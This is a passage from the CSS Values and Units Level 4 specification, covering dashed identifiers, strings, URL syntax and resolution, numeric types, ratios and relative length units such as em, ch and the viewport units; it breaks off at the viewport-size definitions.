When parsing positionally-ambiguous keywords in a property value, a `<custom-ident>` production can only claim the keyword if no other unfulfilled production can claim it.

> **Example:** For example, the shorthand declaration `animation: ease-in ease-out` is equivalent to the longhand declarations `animation-timing-function: ease-in; animation-name: ease-out;`. `ease-in` is claimed by the `<easing-function>` production belonging to `animation-timing-function`, leaving `ease-out` to be claimed by the `<custom-ident>` production belonging to `animation-name`.

> **Note:** When designing grammars with `<custom-ident>`, the <custom-ident> should always be “positionally unambiguous”, so that it’s impossible to conflict with any keyword values in the property. Such conflicts can alternatively be avoided by using `<dashed-ident>`.

#### 4.3.  Prefixed Author-defined Identifiers: the `<dashed-ident>` type {#css-values-4:dashed-idents}

Some contexts accept *both* author-defined identifiers *and* CSS-defined identifiers. If not handled carefully, this can result in difficulties adding new CSS-defined values; UAs have to study existing usage and gamble that there are sufficiently few author-defined identifiers in use matching the new CSS-defined one, so giving the new value a special CSS-defined meaning won’t break existing pages.

While there are many legacy cases in CSS that mix these two values spaces in exactly this fraught way, the `<dashed-ident>` type is meant to be an easy way to distinguish author-defined identifiers from CSS-defined identifiers.

The **`<dashed-ident>`** production is a `<custom-ident>`, with all the case-sensitivity that implies, with the additional restriction that it must start with two dashes (U+002D HYPHEN-MINUS).

`<dashed-ident>`s are reserved solely for use as author-defined names. CSS will never define a <dashed-ident> for its own use.

> **Example:** For example, custom properties need to be distinguishable from CSS-defined properties, as new properties are added to CSS regularly. To allow this, custom property names are required to be `<dashed-ident>`s, as in this example:
>
> ```
> .foo {
>   --fg-color: blue;
> }
> ```

> **Example:** `<dashed-ident>`s are also used in the `@color-profile` rule, to separate author-defined color profiles from pre-defined ones like `device-cmyk`, and allow CSS to define more pre-defined (but overridable) profiles in the future without fear of clashing with author-defined profiles:
>
> ```
> @color-profile --foo { src: url(https://example.com/foo.icc); }
> .foo {
>   color: color(--foo 1 0 .5 / .2);
> }
> ```

> **Example:** CSS will use `<dashed-ident>` more in the future, as more author-controlled syntax is added. CSS authoring tools, such as preprocessors that turn custom syntax into standard CSS, *should* use <dashed-ident> as well, to avoid clashing with future CSS design.
>
> For example, if a CSS preprocessor added a new "custom" at-rule, it *shouldn’t* spell it `@custom`, as this would clash with a future official `@custom` rule added by CSS. Instead, it should use `@--custom`, which is guaranteed to never clash with anything defined by CSS.
>
> Even better, it should use `@--library1-custom`, so that if Library2 adds their own "custom" at-rule (spelled @--library2-custom), there’s no possibility of clash. Ideally this prefix should be customizable, if allowed by the tooling, so authors can manually avoid clashes on their own.

#### 4.4.  Quoted Strings: the `<string>` type {#css-values-4:strings}

Strings, denoted by **<string>**, are sequences of characters representing arbitrary textual data. When written literally, they are delimited by double quotes or single quotes, and correspond to the `<string-token>` production. [CSS-SYNTAX-3].

> **Example:** Double quotes cannot occur inside double quotes, unless [escaped](#css2:escaped-characters) (as `"\""` or as `"\22"`). Analogously for single quotes (`'\''` or `'\27'`).
>
> ```
> content: "this is a 'string'.";
> content: "this is a \"string\".";
> content: 'this is a "string".';
> content: 'this is a \'string\'.'
> ```

It is possible to break strings over several lines, for aesthetic or other reasons, but in such a case the newline itself has to be escaped with a backslash (\). The newline is subsequently removed from the string. For instance, the following two selectors are exactly the same:

> **Example:** (s):
>
> ```
> a[title="a not s\
> o very long title"] {/*...*/}
> a[title="a not so very long title"] {/*...*/}
> ```

Since a string cannot directly represent a newline, to include a newline in a string, use the escape "\A". (Hexadecimal A is the line feed character in Unicode (U+000A), but represents the generic notion of "newline" in CSS.)

#### 4.5.  Resource Locators: the `<url>` type {#css-values-4:urls}

The `<url>` type, written with the **url()** and **src()** functions, represents a URL, which is a pointer to a resource.

The syntax of `<url>` is:

```css
<url> = <url()> | <src()>

<url()> = url( <string> <url-modifier>* ) | <url-token>
<src()> = src( <string> <url-modifier>* )
```

> **Example:** This example shows a URL being used as a background image:
>
> ```
> body { background: url("http://www.example.com/pinkish.gif") }
> ```

A `url()` can be written without quotation marks around the URL value, in which case it is specially-parsed as a `<url-token>`; see [CSS Syntax 3 § 4.3.6 Consume a url token](#css-syntax-3:consume-url-token). [CSS-SYNTAX-3]

> **Note:** Because of this special parsing, `url()` can only express its value literally. To provide a URL by functions such as `var()`, use the `src()` notation, which does not have this special parsing rule.

> **Example:** For example, the following declarations are identical:
>
> ```
> background: url("http://www.example.com/pinkish.gif");
> background: url(http://www.example.com/pinkish.gif);
> ```
>
> And these have the same meaning as well:
>
> ```
> background: src("http://www.example.com/pinkish.gif");
> --foo: "http://www.example.com/pinkish.gif";
> background: src(var(--foo));
> ```
>
> But this does *not* work:
>
> ```
> --foo: "http://www.example.com/pinkish.gif";
> background: url(var(--foo));
> ```
>
> ...because the unescaped "(" in the value causes a parse error, so the entire declaration is thrown out as invalid.

> **Note:** The unquoted `url()` syntax cannot accept a `<url-modifier>` argument and has extra escaping requirements: parentheses, [whitespace](#css-syntax-3:whitespace) characters, single quotes (') and double quotes (") appearing in a URL must be escaped with a backslash, e.g. `url(open\(parens)`, `url(close\)parens)`. (In quoted `<string>` `url()`s, only newlines and the character used to quote the string need to be escaped.) Depending on the type of URL, it might also be possible to write these characters as URL-escapes (e.g. `url(open%28parens)` or `url(close%29parens)`) as described in [URL].

Some CSS contexts (such as `@import`) also allow a `<url>` to be represented by a bare `<string>`, without the function wrapper. In such cases the string behaves identically to a `url()` function containing that string.

> **Example:** For example, the following statements act identically:
>
> ```
> @import url("base-theme.css");
> @import "base-theme.css";
> ```

##### 4.5.1.  Relative URLs {#css-values-4:relative-urls}

In order to create modular style sheets that are not dependent on the absolute location of a resource, authors should use relative URLs. Relative URLs (as defined in [URL]) are resolved to full URLs using a base URL. RFC 3986, section 3, defines the normative algorithm for this process. For CSS style sheets, the base URL is that of the style sheet itself, not that of the styled source document. Style sheets embedded within a document have the base URL associated with their container.

> **Note:** For HTML documents, the [base URL is mutable](https://html.spec.whatwg.org/multipage/urls-and-fetching.html#dynamic-changes-to-base-urls).

When a `<url>` appears in the computed value of a property, it is resolved to an absolute URL. The computed value of a URL that the UA cannot resolve to an absolute URL is the specified value.

> **Example:** For example, suppose the following rule:
>
> ```
> body { background: url("tile.png") }
> ```
>
> is located in a style sheet designated by the URL:
>
> ```
> http://www.example.org/style/basic.css
> ```
>
> The background of the source document’s `<body>` will be tiled with whatever image is described by the resource designated by the URL:
>
> ```
> http://www.example.org/style/tile.png
> ```
>
> The same image will be used regardless of the URL of the source document containing the `<body>`.

###### 4.5.1.1.  Fragment URLs {#css-values-4:local-urls}

To enable element ID references to work in CSS regardless of base URL changes or shadow DOM, `<url>`s have special behavior when they contain only a fragment.

If a `<url>`’s value starts with a U+0023 NUMBER SIGN (`#`) character, then the URL additionally has its **local url flag** set, and is a tree-scoped reference for the URL’s fragment.

When matching a `<url>` with the local url flag set:

- if the URL’s fragment is an element ID reference (rather than, say, a media fragment), resolve it as a tree-scoped reference with the tree’s IDs as the associated tree-scoped names: specifically, resolve to the first element in tree order among the associated node tree’s descendants with the URL’s fragment as its ID. (And, as usual for tree-scoped references, continuing up to the host’s tree if needed.)

  If no such element is found, the URL fails to resolve.
- otherwise, resolve the fragment against the current document.

> **Issue:** Possibly reference find a potential indicated element, but that is defined specifically for `Document`s, not `ShadowRoot`s.

> **Note:** This means that such fragments will resolve against the contents of the current document (or whichever node tree the stylesheet lives in, if shadow DOM is involved) regardless of how such relative URLs would resolve elsewhere (ignoring, for example, `base` elements changing the base URL, or relative URLs in linked stylesheets resolving against the stylesheet’s URL).

> **Example:** In the following example, `#anchor` will resolve against `http://example.com/` whereas `#image` will resolve against the elements in the HTML document itself:
>
> ```
> <!DOCTYPE html>
> <base href="http://example.com/">
> ...
> <a href="#anchor" style="background-image: url(#image)">link</a>
> ```

When [serializing](#cssom-1:serializing-css-values) a `url()` with the local url flag set, it must serialize as just the fragment.

##### 4.5.2.  Empty URLs {#css-values-4:url-empty}

If the value of the `<url>` is the empty string (like `url("")` or `url()`), the url must resolve to an invalid resource (similar to what the url `about:invalid` does).

Its computed value is `url("")` or `src("")`, whichever was specified, and it must serialize as such.

> **Note:** This matches the behavior of empty urls for embedded resources elsewhere in the web platform, and avoids excess traffic re-requesting the stylesheet or host document due to editing mistakes leaving the `url()` value empty, which are almost certain to be invalid resources for whatever the `url()` shows up in. Linking on the web platform *does* allow empty urls, so if/when CSS gains some functionality to control hyperlinks, this restriction can be relaxed in those contexts.

##### 4.5.3.  URL Modifiers {#css-values-4:url-modifiers}

`<url>`s support specifying additional **<url-modifier>**s, which change the meaning or the interpretation of the URL somehow. A `<url-modifier>` is either an `<ident>` or a functional notation.

This specification does not define any `<url-modifier>`s, but other specs may do so.

> **Note:** A `<url>` that is either unquoted or not wrapped in `url()` notation cannot accept any `<url-modifier>`s.

##### 4.5.4.  URL Processing Model {#css-values-4:url-processing}

To compute the **style resource base URL** for a CSS rule or a CSS declaration block *cssRuleOrDeclaration*:

1. Let *sheet* be null.
2. If *cssRuleOrDeclaration* is a CSS declaration block whose parent CSS rule is not null, set *cssRuleOrDeclaration* to *cssRuleOrDeclaration*’s parent CSS rule.
3. If *cssRuleOrDeclaration* is a CSS rule, set *sheet* to *cssRuleOrDeclaration*’s `parent style sheet`.
4. If *sheet* is not null:

  1. If *sheet*’s stylesheet base URL is not null, return *sheet*’s stylesheet base URL.
  2. If *sheet*’s location is not null, return *sheet*’s location.
5. Return *cssRuleOrDeclaration*’s relevant settings object’s API base URL.

To **resolve a style resource URL** from a url or `<url>` *urlValue*, and a CSS rule or a CSS declaration block *cssRuleOrDeclaration*:

1. Let *base* be the style resource base URL given *cssRuleOrDeclaration*.
2. Return the result of the URL parser steps with *urlValue*’s url and *base*.

To **fetch a style resource** from a url or `<url>` *urlValue*, given an CSS rule or a css declaration block *cssRuleOrDeclaration*, a string *destination* matching a `RequestDestination`, a "no-cors" or "cors" *corsMode*, and an algorithm *processResponse* accepting a response and a null, failure or byte stream:

1. Let *parsedUrl* be the result of resolving *urlValue* given *cssRuleOrDeclaration*. If that failed, return.
2. Let *settingsObject* be *cssRuleOrDeclaration*’s relevant settings object.
3. Let *req* be a new request whose url is *parsedUrl*, whose destination is *destination*, mode is *corsMode*, origin is *settingsObject*’s origin, credentials mode is "same-origin", use-url-credentials flag is set, client is *settingsObject*, and whose referrer is "client".
4. If *corsMode* is "no-cors", set *req*’s credentials mode to "include".
5. Apply any **URL request modifier steps** that apply to this request.

   > **Note:** This specification does not define any URL request modification steps, but other specs may do so.
6. If *req*’s mode is "cors", and *sheet* is not null, then set *req*’s referrer to the style resource base URL given *cssRuleOrDeclaration*. [CSSOM]
7. If *sheet*’s origin-clean flag is set, set *req*’s initiator type to "css". [CSSOM]
8. Fetch *req*, with processResponseConsumeBody set to *processResponse*.

When interpreting URLs expressed in CSS, the URL parser’s *encoding* argument must be omitted (i.e. use the default, UTF-8), regardless of the stylesheet encoding.

> **Note:** In other words, a URL written in CSS will always percent-encode non-ASCII codepoints using UTF-8 in the URL object (and thus whenever using the URL value for e.g. network requests), regardless of the stylesheet’s own encoding. Note that this occurs [after decoding the stylesheet](#css-syntax-3:input-byte-stream) into Unicode code points.

### 5.  Numeric Data Types {#css-values-4:numeric-types}

Numeric data types are used to represent quantities, indexes, positions, and other such values. Although many syntactic variations can exist in expressing the quantity (numeric aspect) in a given numeric value, the specified and computed value do not distinguish these variations: they represent the value’s abstract quantity, not its syntactic representation.

The **numeric data types** include `<integer>`, `<number>`, `<percentage>`, and various dimensions including `<length>`, `<angle>`, `<time>`, `<frequency>`, and `<resolution>`.

> **Note:** While general-purpose dimensions are defined here, some other modules define additional data types (e.g. [css-grid-1] introduces `fr` units) whose usage is more localized.

The precision and supported range of numeric values in CSS is implementation-defined, and can vary based on the property or other context a value is used in. However, within the CSS specifications, infinite precision and range is assumed. When a value cannot be explicitly supported due to range/precision limitations, it must be converted to the closest value supported by the implementation, but how the implementation defines "closest" is implementation-defined as well.

If an `<angle>` must be converted due to exceeding the implementation-defined range of supported values, it must be clamped to the nearest supported multiple of `360deg`.

#### 5.1.  Range Restrictions and Range Definition Notation {#css-values-4:numeric-ranges}

Properties can restrict numeric values to some range. If the value is outside the allowed range, then unless otherwise specified, the declaration is invalid and must be [ignored](#css2:ignore). Range restrictions can be annotated in the numeric type notation using **CSS bracketed range notation**—​`[min,max]`—​within the angle brackets, after the identifying keyword, indicating a closed range between (and including) *min* and *max*. For example, `<integer [0,10]>` indicates an integer between `0` and `10`, inclusive, while `<angle [0,180deg]>` indicates an angle between `0deg` and `180deg` (expressed in any unit).

> **Note:** CSS values generally do not allow open ranges; thus only square-bracket notation is used.

CSS theoretically supports infinite precision and infinite ranges for all value types; however in reality implementations have finite capacity. UAs should support reasonably useful ranges and precisions. Range extremes that are ideally unlimited are indicated using ∞ or −∞ as appropriate. For example, `<length [0,∞]>` indicates a non-negative length.

If no range is indicated, either by using the bracketed range notation or in the property description, then `[−∞,∞]` is assumed.

Values of −∞ or ∞ must be written without units, even if the value type uses units. Values of `0` *can* be written without units, even if the value type doesn’t allow “unitless zeroes” (such as `<time>`).

> **Note:** At the time of writing, the bracketed range notation is new; thus in most CSS specifications any range limitations are described only in prose. (For example, “Negative values are not allowed” or “Negative values are invalid” indicate a `[0,∞]` range.) This does not make them any less binding.

#### 5.2.  Integers: the `<integer>` type {#css-values-4:integers}

Integer values are denoted by **<integer>**.

When written literally, an **integer** is one or more decimal digits `0` through `9` and corresponds to a subset of the `<number-token>` production in the CSS Syntax Module [CSS-SYNTAX-3]. The first digit of an integer may be immediately preceded by `-` or `+` to indicate the integer’s sign.

Unless otherwise specified, in the CSS specifications **rounding to the nearest integer** requires rounding in the direction of +∞ when the fractional portion is exactly 0.5. (For example, `1.5` rounds to `2`, while `-1.5` rounds to `-1`.)

##### 5.2.1.  Computation and Combination of `<integer>` {#css-values-4:combine-integers}

Unless otherwise specified, the computed value of a specified `<integer>` is the specified abstract integer.

Interpolation of `<integer>` is defined as *V*result = round((1 - *p*) × *VA* + *p* × *VB*); that is, interpolation happens in the real number space as for `<number>`s, and the result is converted to an <integer> by rounding to the nearest integer.

Addition of `<integer>` is defined as *Vresult* = *VA* + *VB*

#### 5.3.  Real Numbers: the `<number>` type {#css-values-4:numbers}

Number values are denoted by **<number>**, and represent real numbers, possibly with a fractional component.

When written literally, a **number** is either an integer, or zero or more decimal digits followed by a dot (.) followed by one or more decimal digits; optionally, it can be concluded by the letter “e” or “E” followed by an integer indicating the base-ten exponent in [scientific notation](https://en.wikipedia.org/wiki/Scientific_notation). It corresponds to the `<number-token>` production in the [CSS Syntax Module](#css-syntax-3) [CSS-SYNTAX-3]. As with integers, the first character of a number may be immediately preceded by `-` or `+` to indicate the number’s sign.

The value **<zero>** represents a literal number with the value 0. Expressions that merely evaluate to a `<number>` with the value 0 (for example, `calc(0)`) do not match `<zero>`; only literal `<number-token>`s do.

##### 5.3.1.  Computation and Combination of `<number>` {#css-values-4:combine-numbers}

Unless otherwise specified, the computed value of a specified `<number>` is the specified abstract number.

Interpolation of `<number>` is defined as *V*result = (1 - *p*) × *VA* + *p* × *VB*

Addition of `<number>` is defined as *Vresult* = *VA* + *VB*

#### 5.4.  Numbers with Units: dimension values {#css-values-4:dimensions}

The general term **dimension** refers to a number with a unit attached to it; and is denoted by **<dimension>**.

When written literally, a dimension is a number immediately followed by a unit identifier, which is an identifier. It corresponds to the `<dimension-token>` production in the [CSS Syntax Module](#css-syntax-3) [CSS-SYNTAX-3]. Like keywords, unit identifiers are ASCII case-insensitive.

CSS uses `<dimension>`s to specify distances (`<length>`), durations (`<time>`), frequencies (`<frequency>`), resolutions (`<resolution>`), and other quantities.

##### 5.4.1.  Compatible Units {#css-values-4:compat}

When [serializing](#cssom-1:serializing-css-values) computed values [CSSOM], **compatible units** (those related by a static multiplicative factor, like the 96:1 factor between `px` and `in`, or the computed `font-size` factor between `em` and `px`) are converted into a single **canonical unit**. Each group of compatible units defines which among them is the canonical unit that will be used for serialization.

When serializing [resolved values](#cssom-1:resolved-values) that are used values, all value types (percentages, numbers, keywords, etc.) that represent lengths are considered compatible with lengths. Likewise any future API that returns used values must consider any values that represent distances/durations/frequencies/etc. as compatible with the relevant class of dimensions, and canonicalize accordingly.

##### 5.4.2.  Combination of Dimensions {#css-values-4:combine-dimensions}

Interpolation of compatible dimensions (for example, two `<length>` values) is defined as *V*result = (1 - *p*) × *VA* + *p* × *VB*

Addition of compatible dimensions is defined as *Vresult* = *VA* + *VB*

#### 5.5.  Percentages: the `<percentage>` type {#css-values-4:percentages}

Percentage values are denoted by **<percentage>**, and indicates a value that is some fraction of another reference value.

When written literally, a **percentage** consists of a number immediately followed by a percent sign `%`. It corresponds to the `<percentage-token>` production in the [CSS Syntax Module](#css-syntax-3) [CSS-SYNTAX-3].

Percentage values are always relative to another quantity, for example a length. Each property that allows percentages also defines the quantity to which the percentage refers. This quantity can be a value of another property for the same element, the value of a property for an ancestor element, a measurement of the formatting context (e.g., the width of a containing block), or something else.

##### 5.5.1.  Computation and Combination of `<percentage>` {#css-values-4:combine-percentages}

Unless otherwise specified (such as in `font-size`, which computes its `<percentage>` values to `<length>`), the computed value of a percentage is the specified percentage.

Interpolation of `<percentage>` is defined as *V*result = (1 - *p*) × *VA* + *p* × *VB*

Addition of `<percentage>` is defined as *Vresult* = *VA* + *VB*

#### 5.6.  Mixing Percentages and Dimensions {#css-values-4:mixed-percentages}

In cases where a `<percentage>` can represent the same quantity as a dimension in the same component value position, and can therefore be combined with them in a `calc()` expression, the following convenience notations may be used in the property grammar:

****<length-percentage>****

: Equivalent to `[ <length> | <percentage> ]`, where the `<percentage>` will resolve to a `<length>`.

****<frequency-percentage>****

: Equivalent to `[ <frequency> | <percentage> ]`, where the `<percentage>` will resolve to a `<frequency>`.

****<angle-percentage>****

: Equivalent to `[ <angle> | <percentage> ]`, where the `<percentage>` will resolve to an `<angle>`.

****<time-percentage>****

: Equivalent to `[ <time> | <percentage> ]`, where the `<percentage>` will resolve to a `<time>`.

> **Example:** For example, the `width` property can accept a `<length>` or a `<percentage>`, both representing a measure of distance. This means that `width: calc(500px + 50%);` is allowed—​both values are converted to absolute lengths and added. If the containing block is `1000px` wide, then `width: 50%;` is equivalent to `width: 500px`, and `width: calc(50% + 500px)` thus ends up equivalent to `width: calc(500px + 500px)` or `width: 1000px`.
>
> On the other hand, the second and third arguments of the `hsl()` function can only be expressed as `<percentage>`s. Although `calc()` productions are allowed in their place, they can only combine percentages with themselves, as in `calc(10% + 20%)`.

> **Note:** Specifications should never alternate `<percentage>` in place of a dimension in a grammar unless they are compatible.

> **Note:** More <*type*-percentage> productions can be added in the future as needed. A <number-percentage> will never be added, as `<number>` and `<percentage>` can’t be combined in `calc()`.

##### 5.6.1.  Computation and Combination of Percentage and Dimension Mixes {#css-values-4:combine-mixed}

The computed value of a percentage-dimension mix is defined as

- a computed dimension if the percentage component is zero or is defined specifically to compute to a dimension value
- a computed percentage if the dimension component is zero
- a [computed calc() expression](#css-values-4:calc-computed-value) otherwise

Interpolation of percentage-dimension value combinations (e.g. `<length-percentage>`, `<frequency-percentage>`, `<angle-percentage>`, `<time-percentage>` or equivalent notations) is defined as

- equivalent to interpolation of `<length>` if both *VA* and *VB* are pure <length> values
- equivalent to interpolation of `<percentage>` if both *VA* and *VB* are pure <percentage> values
- equivalent to converting both values into a `calc()` expression representing the sum of the dimension type and a percentage (each possibly zero) and interpolating each component individually (as a `<length>`/`<frequency>`/`<angle>`/`<time>` and as a `<percentage>`, respectively)

Addition of `<percentage>` is defined the same as interpolation except by adding each component rather than interpolating it.

#### 5.7.  Ratios: the `<ratio>` type {#css-values-4:ratios}

Ratio values are denoted by **<ratio>**, and represent the ratio of two numeric values. It most often represents an aspect ratio, relating a width (first) to a height (second).

When written literally, a **ratio** has the syntax:

```css
<ratio> = <number [0,∞]> [ / <number [0,∞]> ]?
```

The second `<number>` is optional, defaulting to `1`. However, `<ratio>` is always serialized with both components.

The computed value of a `<ratio>` is the pair of numbers provided.

If either number in the `<ratio>` is 0 or infinite, it represents a **degenerate ratio** (and, generally, won’t do anything).

If two `<ratio>`s need to be compared, divide the first number by the second, and compare the results. For example, `3/2` is less than `2/1`, because it resolves to 1.5 while the second resolves to 2. (In other words, “tall” aspect ratios are less than “wide” aspect ratios.)

##### 5.7.1.  Combination of `<ratio>` {#css-values-4:combine-ratio}

The interpolation of a `<ratio>` is defined by converting each <ratio> to a number by dividing the first value by the second (so a ratio of `3 / 2` would become `1.5`), taking the logarithm of that result (so the `1.5` would become approximately `0.176`), then interpolating those values. The result during the interpolation is converted back to a <ratio> by inverting the logarithm, then interpreting the result as a <ratio> with the result as the first value and `1` as the second value.

If either `<ratio>` is degenerate, the values cannot be interpolated.

> **Example:** For example, halfway through a linear interpolation from `5 / 1` to `3 / 2`, the result is approximately the ratio `2.73 / 1` (roughly `11 / 4`, slightly taller than a `3 / 1` ratio):
>
> ```
> start  = log(5);   // ≈ 0.69897
> end    = log(1.5); // ≈ 0.17609
> interp = 0.69897*.5 + 0.17609*.5; // ≈ 0.43753
> final  = 10^interp; // ≈ 2.73
> ```

> **Note:** Interpolating over the logarithm of the ratio means the results are scale-independent (`5 / 1` to `300 / 200` would give the same results as above), that they’re symmetrical over "wide" and "tall" variants (interpolating from `1 / 5` to `2 / 3` would give a ratio approximately equal to `1 / 2.73` at the halfway point), and that they’re symmetrical over whether the width is fixed and the height is based on the ratio or vice versa. These properties are not shared by many other possible interpolation strategies.

> **Note:** Due to the properties of logarithms, any log can be used; the example here uses base-10 log, but if, say, the natural log and e was used, the intermediate results would be different but the final result would be the same.

Addition of `<ratio>`s is not possible.

### 6.  Distance Units: the `<length>` type {#css-values-4:lengths}

Lengths refer to distance measurements and are denoted by **<length>** in the property definitions. A length is a dimension.

For zero lengths the unit identifier is optional (i.e. can be syntactically represented as the `<number>` `0`). However, if a `0` could be parsed as either a <number> or a `<length>` in a property (such as `line-height`), it must parse as a <number>.

Properties may restrict the length value to some range. If the value is outside the allowed range, the declaration is invalid and must be [ignored](#css2:ignore).

While some properties allow negative length values, this may complicate the formatting and there may be implementation-specific limits. If a negative length value is allowed but cannot be supported, it must be converted to the nearest value that can be supported.

In cases where the used length cannot be supported, user agents must approximate it in the actual value.

There are two types of length units: relative and absolute. The specified value of a length (**specified length**) is represented by its quantity and its unit. The computed value of a length (**computed length**) is the specified length resolved to an absolute length, and its unit is not distinguished: it can be represented by any absolute length unit (but will be serialized using its canonical unit, `px`).

While the exact supported precision of numeric values, and how they are rounded to match that precision, is generally implementation-defined, `<length>`s in `border-width` and a few other properties are rounded in a specific fashion to ensure reasonable visual display. (This algorithm is called by individual properties explicitly.)

To **snap a length as a line width** given a `<length>` *len*:

1. If *len* is an integer number of device pixels, do nothing.
2. If the absolute value of *len* is greater than zero, but less than 1 device pixel, round it away from zero to 1 or -1 device pixel.
3. If the absolute value of *len* is greater than 1 device pixel, round it towards zero to the nearest integer number of device pixels.

#### 6.1.  Relative Lengths {#css-values-4:relative-lengths}

**Relative length units** specify a length relative to another length. Style sheets that use relative units can more easily scale from one output environment to another.

The relative units are:

| unit | relative to |
| --- | --- |
| `em` | font size of the element |
| `ex` | x-height of the element’s font |
| `cap` | cap height (the nominal height of capital letters) of the element’s font |
| `ch` | typical character advance of a narrow glyph in the element’s font, as represented by the “0” (ZERO, U+0030) glyph |
| `ic` | typical character advance of a fullwidth glyph in the element’s font, as represented by the “水” (CJK water ideograph, U+6C34) glyph |
| `rem` | font size of the root element |
| `lh` | line height of the element |
| `rlh` | line height of the root element |
| `vw` | 1% of viewport’s width |
| `vh` | 1% of viewport’s height |
| `vi` | 1% of viewport’s size in the root element’s inline axis |
| `vb` | 1% of viewport’s size in the root element’s block axis |
| `vmin` | 1% of viewport’s smaller dimension |
| `vmax` | 1% of viewport’s larger dimension |

Child elements do not inherit the relative values as specified for their parent; they inherit the computed values.

##### 6.1.1.  Font-relative Lengths: the `em`, `rem`, `ex`, `rex`, `cap`, `rcap`, `ch`, `rch`, `ic`, `ric`, `lh`, `rlh` units {#css-values-4:font-relative-lengths}

The **font-relative lengths** refer to the font metrics either of the element on which they are used (for the **local font-relative lengths**) or of the root element (for the **root font-relative lengths**).


Common typographic metrics

****em****

: Equal to the computed value of the `font-size` property of the element on which it is used.

  > **Example:** The rule:
  >
  > ```
  > h1 { line-height: 1.2em }
  > ```
  >
  > means that the line height of `h1` elements will be 20% greater than the font size of `h1` element. On the other hand:
  >
  > ```
  > h1 { font-size: 1.2em }
  > ```
  >
  > means that the font size of `h1` elements will be 20% greater than the computed font size inherited by `h1` elements.

****rem****

: Equal to the computed value of the `em` unit on the root element.

****ex****

: Equal to the used x-height of the [first available font](#css-fonts-4:first-available-font) [CSS3-FONTS]. The x-height is so called because it is often equal to the height of the lowercase "x". However, an `ex` is defined even for fonts that do not contain an "x". The x-height of a font can be found in different ways. Some fonts contain reliable metrics for the x-height. If reliable font metrics are not available, UAs may determine the x-height from the height of a lowercase glyph. One possible heuristic is to look at how far the glyph for the lowercase "o" extends below the baseline, and subtract that value from the top of its bounding box. In the cases where it is impossible or impractical to determine the x-height, a value of 0.5em must be assumed.

****rex****

: Equal to the value of the `ex` unit on the root element.

****cap****

: Equal to the used cap-height of the [first available font](#css-fonts-4:first-available-font) [CSS3-FONTS]. The cap-height is so called because it is approximately equal to the height of a capital Latin letter. However, a `cap` is defined even for fonts that do not contain Latin letters. The cap-height of a font can be found in different ways. Some fonts contain reliable metrics for the cap-height. If reliable font metrics are not available, UAs may determine the cap-height from the height of an uppercase glyph. One possible heuristic is to look at how far the glyph for the uppercase “O” extends below the baseline, and subtract that value from the top of its bounding box. In the cases where it is impossible or impractical to determine the cap-height, the font’s ascent must be used.

****rcap****

: Equal to the value of the `cap` unit on the root element.

****ch****

: Represents the typical advance measure of European alphanumeric characters, and measured as the used advance measure of the “0” (ZERO, U+0030) glyph in the font used to render it. (The **advance measure** of a glyph is its advance width or height, whichever is in the inline axis of the element.)

  > **Note:** This measurement is an approximation (and in monospace fonts, an exact measure) of a single narrow glyph’s advance measure, thus allowing measurements based on an expected glyph count.

  > **Note:** The advance measure of a glyph depends on writing-mode and text-orientation as well as font settings, text-transform, and any other properties that affect glyph selection or orientation.

  In the cases where it is impossible or impractical to determine the measure of the “0” glyph, it must be assumed to be 0.5em wide by 1em tall. Thus, the `ch` unit falls back to `0.5em` in the general case, and to `1em` when it would be typeset upright (i.e. `writing-mode` is `vertical-rl` or `vertical-lr`, and `text-orientation` is `upright`).

****rch****

: Equal to the value of the `ch` unit on the root element.

****ic****

: Represents the typical advance measure of CJK letters, and measured as the used advance measure of the “水” (CJK water ideograph, U+6C34) glyph found in the font used to render it.

  > **Note:** This measurement is a typically an exact measure (in the few fonts with proportional fullwidth glyphs, an approximation) of a single [fullwidth](http://unicode.org/reports/tr11/#Definitions) glyph’s advance measure, thus allowing measurements based on an expected glyph count.

  In the cases where it is impossible or impractical to determine the ideographic advance measure, it must be assumed to be 1em.

****ric****

: Equal to the value of the `ic` unit on the root element.

****lh****

: Equal to the computed value of the `line-height` property of the element on which it is used, converting `normal` to an absolute length by using only the metrics of the [first available font](#css-fonts-4:first-available-font).

****rlh****

: Equal to the value of the `lh` unit on the root element.

  > **Note:** Setting the `height` of an element using either the `lh` or the `rlh` units does not enable authors to control the actual number of lines in that element. These units only enable length calculations based on the theoretical size of an ideal empty line; the size of actual lines boxes may differ based on their content. In cases where an author wants to limit the number of actual lines in an element, the `max-lines` property can be used instead.

Properties that affect the font size or font metrics of an element are **font-affecting properties**. When used in the value of any font-affecting property on the element they refer to, the font-relative lengths resolve against the computed metrics of the parent element—​or against the computed metrics corresponding to the initial values of the `font` and `line-height` properties, if the element has no parent. Similarly, when `lh` or `rlh` units are used in the value of the `line-height` property or font-affecting properties on the element they refer to, they resolve against the computed `line-height` and font metrics of the parent element—​or the computed metrics corresponding to the initial values of the `font` and `line-height` properties, if the element has no parent. (The other font-relative lengths continue to resolve against the element’s own metrics when used in `line-height`.)

> **Note:** Most properties defined in [css-fonts-4] are font-affecting properties, as is `math-style` and `math-depth`. (This isn’t necessarily an exhaustive list.)

When used outside the context of an element (such as in media queries), the font-relative lengths units refer to the metrics corresponding to the initial values of the `font` and `line-height` properties. Similarly, when specified in a document with no root element, the root font-relative lengths are resolved assuming the initial values of the `font` and `line-height` properties.

> **Note:** Font-relative units such as `ch` and `ic` can trigger font downloads, if a required font is not yet loaded.

The font-relative lengths are calculated in the absence of shaping.

Some user-agents allow users to apply additional restrictions to font sizes in a document, such as setting minimum font sizes to ensure readability. Such restrictions must be applied to the used value of the affected properties only; they *must not* affect the resolution of font-relative lengths used in properties. However, in other contexts (such as in media queries), to the extent that they would impact the used font metrics, such restrictions *do* affect the resolution of font-relative lengths.

> **Note:** In general, respecting a user’s preferences, like minimum font sizes, is desirable; it’s useful for a media query like `(min-width: 40em)` to use the actual font size the document will be displayed in. However, having these preferences affect font-relative lengths *in properties on an element* was found to not be Web-compatible; too many pages expect these units to be exact multiples of the specified `font-size`, rather than the *actual* font-size after applying user preferences.

Some user-agents apply restrictions to the `line-height` values on form controls. These must have no effect on the `lh` and `rlh` units. The effect on their descendants, however, is implementation-defined.

##### 6.1.2.  Viewport-percentage Lengths: the `*vw`, `*vh`, `*vi`, `*vb`, `*vmin`, `*vmax` units {#css-values-4:viewport-relative-lengths}

The **viewport-percentage lengths** are relative to the size of the [initial containing block](#css2:containing-block-details)—​which is itself based on the size of either the viewport (for continuous media) or the page area (for paged media). When the height or width of the initial containing block is changed, they are scaled accordingly.

###### 6.1.2.1.  The Large, Small, and Dynamic Viewport Sizes {#css-values-4:viewport-variants}

There are four variants of the viewport-percentage length units, corresponding to three (possibly identical) notions of the viewport size.

**large viewport**

